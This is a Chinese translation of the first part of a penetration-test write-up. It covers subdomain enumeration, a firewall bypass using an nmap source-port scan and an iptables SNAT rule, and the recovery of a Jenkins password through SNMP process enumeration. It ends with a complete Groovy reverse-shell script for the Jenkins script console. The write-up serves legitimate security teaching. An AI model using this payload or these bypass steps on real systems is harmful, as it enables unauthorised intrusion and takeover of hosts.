








# 为什么您应该总是扫描 UDP 端口(1/2)

> 原文：<https://infosecwriteups.com/why-you-should-always-scan-udp-ports-part-1-2-d8ee7eb26727?source=collection_archive---------0----------------------->

[链接到第 2 部分](https://medium.com/bugbountywriteup/why-you-should-always-scan-udp-part-2-2-42050fb136d8?source=your_stories_page-------------------------------------)

# 介绍

在这个故事中，我们将看到我们如何利用 snmp 漏洞，使用 Jenkins 控制台调用反向 shell，绕过防火墙规则，绕过 AppArmor 并利用 bash 注入来提升权限，等等。

这是一个 pentest 的故事，其中扫描 udp 端口允许我们控制整个网络。让我们称这家公司为销售公司。它开始像大多数 pentest 做的那样，列举这家公司面向公众的基础设施。我们从正常的 OSINT 流程开始。我不会深入讨论这个问题，关于这个主题有很多资源，但是你可以开始研究这 3 个工具

*   https://www.maltego.com/
*   【https://github.com/laramies/theHarvester 
*   [https://github.com/lanmaster53/recon-ng](https://github.com/lanmaster53/recon-ng)

这一阶段将允许您列举大多数公共信息源。基本上，你最终会得到电子邮件地址、域名、地址、可能的雇员等。在这个特定的评估中，社会工程不在范围内，所以我们主要集中在枚举域上。

一旦有了几个可能的子域，就有了多种映射面向公众的基础设施的方法。在菲尼亚斯·菲舍尔的一个教程([https://www.exploit-db.com/papers/41915](https://www.exploit-db.com/papers/41915))中，经典的方式被大量描述。这包括使用反向 whois 查找来查找与主域名类似参数相关的其他域名，如地址或所有者。之后，您还可以使用激烈列举相邻的 ip 空间。这在瞄准分配了大 IP 范围的公司时很有用。
假设公司的主站点位于 144.33.22.11。如果他们购买了一系列公共 ip 地址，144.33.22.10 和 144.33.22.12 很可能也属于他们。

第二种也是最现代的子域枚举方法在 Patrik Hudak 的文章中有精彩的描述:[https://0xpatrik.com/subdomain-enumeration-2019/](https://0xpatrik.com/subdomain-enumeration-2019/)。

他专门研究子域接管，这是一种漏洞，在这种漏洞中，您主要由于糟糕的配置而劫持了站点的子域。要利用这一点，你需要找到所有潜在的子域。他使用更现代的方法，使用诸如 amass([https://github.com/OWASP/Amass](https://github.com/OWASP/Amass))、mass DNS(【https://github.com/blechschmidt/massdns】T3)和 rapid 7 forward DNS set([https://opendata.rapid7.com/sonar.fdns_v2/](https://opendata.rapid7.com/sonar.fdns_v2/))等工具。

你需要考虑的一件重要事情是:我得说，作为一名学生，你将得到的 90%的作业都有明确的范围。如果你幸运地得到了一个没有的(因为这些通常更有趣)，那么在绘制潜在范围时你必须非常小心。这样做的原因是，您可能会以不属于您的目标的 IP/域为目标。这是违法的。

# 绕过防火墙

我们的 pentest 的目标公司是中型企业(想想 10-15 个主要的面向公众的网站)。我们最终得到了大约 200 个 IP/子域名的潜在列表。使用 Harvey，我们能够找到一个离主站点大约 6 个 ip 的 ip，看起来很有希望(坚持原来的例子，如果主站点位于 144.33.22.10，这个 IP 是 144.33.22.16)。whois 显示它是以与主域名相同的名称注册的(在 OSINT 阶段出现的公司的一名员工)。

对网站的快速扫描没有返回任何有希望的线索。



然而，有一个关于 nmap 的快速技巧你应该永远记住。有时，网络管理员会允许双向的基于端口的过滤，而实际上只允许出口过滤。每当您需要绕过网络规则时，您应该尝试使用通常允许的端口，如 22、53、80 和 443。这就是我们对 nmap 的源端口选项所做的。



如果你想看低层次的，你将无法找到它

```
netstat -an
```

因为默认情况下，nmap 对原始套接字使用 syn 扫描。这意味着连接永远不会完全建立。但是你可以用 tcpdump 看到它。您可以设置一个监听器

```
nc -lkvp 5555
```

我们将执行本地扫描

```
nmap --source-port 53 -p 5555 localhost
```

拦截流量

```
tcpdump -i lo -nn 'port 5555'
```



您可以在这里看到 syn > syn-ack > reset

你可以在这里阅读更多关于防火墙旁路的信息:[https://nmap.org/book/firewall-subversion.htm](https://nmap.org/book/firewall-subversion.html)

我们继续设置 iptables 来获取端口。您可以使用以下规则来完成此操作:

```
iptables -t nat -A POSTROUTING -d 144.33.22.16 -p tcp -j SNAT --to :53
```

这将源端口 nat 发送到 144.33.22.16 的任何流量，将 src ip 端口更改为 53。

如果您还有任何疑问，这里有一个关于源 NAT 的极好资源:[https://gist.github.com/DavidWittman/3805130](https://gist.github.com/DavidWittman/3805130)

# 获得立足点

设置端口转发后，浏览端口 8080 下的站点向我们展示了与此类似的内容:


Jenkins 登录页面

Jenkins 是一个用于自动化 CI/CD 管道的 Java 开源工具。我们找到的版本没有任何公布的漏洞，所以我们必须走另一条路线。这篇文章的标题的原因来了。

让我们谈一会儿 snmp。对于那些以前没有使用过它的人来说，简单网络管理协议([https://en . Wikipedia . org/wiki/Simple _ Network _ Management _ Protocol](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol))是一个应用层协议，它允许您监控和管理网络设备。因为它使用 udp，所以在扫描时会被忽略。正确地枚举此端口可以让您访问许多敏感信息，其中您可以找到网络接口信息、netstat 信息和进程信息。SNMP v1 和 v2c 使用一个认证方案，该方案依赖于一个被称为**社区字符串**的秘密字符串，该字符串允许访问设备。所有设备都有一个默认的团体字符串，称为“public”。这个字符串通常不允许你修改任何东西(它是只读的),但是允许枚举设备。SNMP v3 使用与加密密钥配对的用户名/密码身份验证。



打开 snmp 端口。运行 nmap 时要时刻记住你的-sU！

有多种工具可用于利用 SNMP(https://blog . pentest academy . com/SNMP-exploitation-with-metasploit-and-SNMP set-920 de 3 fc 2c 50)，但我们选择了 nmap 和 snmpwalk。您可以在下图中看到 nmap 的可用 snmp 插件:



我们用 snmp-processes.nse 脚本获得了成功，它显示了以下输出。



总是建议不要在命令行中使用密码启动进程。这是因为它们可以通过以下方式获得

*   外部进程枚举(在本例中是通过 snmp)
*   bash _ 历史日志
*   ps 的内部进程枚举(可以由其他用户执行，而不仅仅是运行命令的用户)

默认情况下，某些工具会混淆密码，如 ssh-pass，但大多数工具不会:


sshpass 中的模糊密码(不，我的密码不是 zzzzzzzzzzzzz)

即使进程只显示一秒钟，您仍然可以通过扫描 procfs 来记录所有的执行。pspy([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy))是一个优秀的工具，它通过在这些 fs 上设置 inotify watchers 来实现这一点

让我们继续进行 pentest。从进程 snmp 枚举中获得 jenkins 密码后，我们能够访问它。如果幸运的话，脚本控制台将被启用，并允许您从机器上调用一个反向 shell。



詹金斯脚本控制台

你可以用下面的代码调用反向 shell(如果是托管在 windows 上，用 cmd.exe 更改/bin/bash)，代码取自[https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76):

```
String host="localhost"; 
int port=8044; 
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

运行它之后，您将在您的监听器上看到类似这样的内容:



我不得不用 python 提升到一个完全 pty 的 shell

我要在这里结束这个故事。在第 2 部分中，我们将介绍如何提升特权，结合两种不同的漏洞在 bash 脚本中注入代码并绕过 AppArmor。之后，我们利用了一个易受攻击的 sudo 命令。我还将详细介绍我们如何危害 jenkins 主机所在的新 VLAN 的其余主机。